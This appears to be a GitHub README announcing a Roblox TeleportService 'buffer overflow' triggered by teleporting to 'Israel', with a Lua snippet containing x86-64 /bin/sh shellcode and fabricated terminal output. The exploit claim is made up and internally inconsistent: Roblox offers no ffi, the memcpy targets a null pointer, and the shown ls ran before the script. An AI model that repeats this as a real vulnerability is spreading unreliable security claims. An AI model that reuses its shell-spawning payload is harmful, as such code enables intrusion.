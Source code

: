 # Roblox-TeleportService-Buffer-Overflow
## Teleporting to a non-existent country to cause a ROBLOX Buffer overflow

I've found that if you try to teleport to a non-existent country, you can cause a buffer overflow.
To reproduce:
1. Join a game on ROBLOX
2. In your exploit, type:
`game:GetService'TeleportService':Teleport'Israel'`
You should get an error that says `Could not teleport to Israel`.
But, if you examine the error, you'll notice that it's much longer than it should be.

You can write shellcode using the 2nd argument of Teleport when teleporting to Israel:

##### Shellcode:
```lua
local shellcode = '\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

game:GetService'TeleportService':Teleport('Israel', setmetatable({}, {__gc = function() 
	local ffi = require'ffi'
	ffi.C.memcpy(nil, shellcode, #shellcode)
end}))
```
##### Output:
```
$ ls -l
total 40
-rw-rw-r-- 1 luis luis  6228 Oct 25 22:10 lib
-rw-rw-r-- 1 luis luis  4567 Oct 25 20:58 lib.lua
-rw-rw-r-- 1 luis luis   255 Oct 25 22:19 shellcode.lua

$ ./shellcode.lua
$
```
##### As you can see, it executed the ls command. You can use this to do anything!

Found by Mr Freeman#5361, [Deniied0](https://github.com/Deniied0) [Jollycistaken](https://github.com/Jollycistaken), [Zer0-AI](https://github.com/Zer0-AI)
